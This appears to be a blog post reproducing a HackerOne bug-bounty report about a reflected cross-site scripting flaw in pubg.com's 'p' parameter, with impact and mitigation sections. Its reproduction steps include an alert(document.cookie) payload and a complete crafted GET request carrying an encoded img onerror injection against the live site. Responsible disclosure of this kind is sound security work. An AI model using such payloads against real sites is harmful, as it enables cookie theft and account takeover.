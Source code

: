 ```yaml
---
layout: post
title: HackerOne Vulnerability Report - Reflected XSS in pubg.com
date: 2019-12-12 13:32:20 +0300
description: You’ll find this post in your `_posts` directory. Go ahead and edit it and re-build the site to see your changes. # Add post description (optional)
tags: [bugbounty, application security]
---
```


# HackerOne Vulnerability Report - Reflected XSS in pubg.com

![hackerone](https://i.imgur.com/vN8sOrp.png)

[HackerOne Report Link](https://hackerone.com/reports/751870)


## Affected asset(s)

* https://www.pubg.com/

## Description

PUBG's main website https://www.pubg.com has an endpoint that is vulnerable to an injection vulnerability - namely a reflected injection of JavaScript, also known as Reflected Cross Site Scripting (XSS). As per OWASP's definition: "Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted websites. "
This happens because one of the GET parameters "p" does not properly sanitize/escape user input, allowing an injection to occur.

## Proof of Concept
[Video Link](https://youtu.be/sDINhDEgp48)

<img src="https://i.imgur.com/sgdpR47.gif" alt="alt text" width="1000" height="600">

## Steps to reproduce

To reproduce this, an attacker has to:

 * **Step 1)** Prepare a Javascript payload that it wants the victim to execute. In this case, for Proof of Concept purposes, our Javascript code will prompt an alert showing the users' cookies.

```javascript
alert(document.cookie);
```

 * **Step 2)** Inject this Javascript code properly into the vulnerable parameter, creating thus a crafted future GET request that will inject the payload.
 
 ```get_request
 GET /?p=iqz78'%3e%3cimg%20src%3da%20onerror%3dalert(document.cookie)%3d1%3echplq HTTP/1.1
Host: www.pubg.com
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Referer: https://www.pubg.com/es/feed/
Cookie: _icl_current_language=en; _icl_visitor_lang_js=en-us; wpml_browser_redirect_test=0; __cfduid=de74423d435717d651b1c9e2c63f4acc21575460678
 ```
 
 Request PoC
 
 ![Request](https://i.imgur.com/EkxbL5n.png)
 
  * **Step 3)** As this injection happens in a GET parameter, the attacker simply needs to send the crafted Link that produces this GET request to the victim and have the victim click it.
  
  Injection demonstration
  
  ![Request](https://i.imgur.com/J7FYcXk.png)
  
## Impact
  
With user interaction, an attacker could execute arbitrary Javascript code in a victim's browser.

This would allow an attacker to unwillingly make a victim:
 * Perform any action in the identified endpoint
 * View any information that the user is able to view
 * Modify any information that the user is able to modify (not sure if applicable in this case)
 * Interact with other application users as if it were him - impersonation (not sure if applicable in this case)
 
## Mitigation
 
 * Sanitize inputs if they are reflected into the html rending
 * Configure Content-Security-Policy Header
 
 [Reference](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
